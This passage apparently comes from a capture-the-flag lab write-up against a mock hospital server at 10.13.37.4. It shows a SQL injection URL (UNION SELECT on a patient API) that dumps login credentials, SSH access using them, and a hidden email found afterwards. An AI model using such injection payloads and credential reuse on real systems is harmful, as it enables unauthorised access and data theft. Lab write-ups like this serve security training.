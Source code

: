 	http://10.13.37.4/api/viewPatient?patientID=' UNION SELECT username, password, type, '_' FROM unix_login--&password=mTvkHrQdaPHLp477

	username: ecoast
	password: bc60f3cff8197896
	type:     postfix_mailserver



# ecoast@10.13.37.4, Port 22


## Login

Connect over ssh using the credentials we found

	ssh ecoast@10.13.37.4
	password: bc60f3cff8197896

From the MOTD and the hints from the unix_login table we can assume there is something related to mail on this box.

Exploring common mail directories leads us to a secret message in a hidden folder.


## Secretmail

	Date: Thu, 2 Jun 2016 10:52:24 -0400
	From: Dan <dan@ecoasthospital.com>
	To: "=?utf-8?Q?augeocacher=40gmail.com?=" <secret@evilperson.com>
	Subject: Import Email
	X-Mailer: Airmail (348)
	MIME-Version: 1.0
	Content-Type: multipart/mixed; boundary="57504829_1bd8808c_f83"

	--57504829_1bd8808c_f83
	Content-Type: multipart/alternative; boundary="57504829_4a0e6c7f_f83"

	--57504829_4a0e6c7f_f83
	Content-Type: text/plain; charset="utf-8"
	Content-Transfer-Encoding: 7bit
	Content-Disposition: inline

	Make sure nobody sees this

	--57504829_4a0e6c7f_f83
	Content-Type: text/html; charset="utf-8"
	Content-Transfer-Encoding: quoted-printable
	Content-Disposition: inline

	<html><head><style>body=7Bfont-family:Helvetica,Arial;font-size:13px=7D</=
	style></head><body style=3D=22word-wrap: break-word; -webkit-nbsp-mode: s=
	pace; -webkit-line-break: after-white-space;=22><div id=3D=22bloop=5Fcust=
	omfont=22 style=3D=22font-family:Helvetica,Arial;font-size:13px; color: r=
	gba(0,0,0,1.0); margin: 0px; line-height: auto;=22>Make sure nobody sees =
	this</div><br><div id=3D=22bloop=5Fsign=5F1464879021715235840=22 class=3D=
	=22bloop=5Fsign=22></div></body></html>
	--57504829_4a0e6c7f_f83--
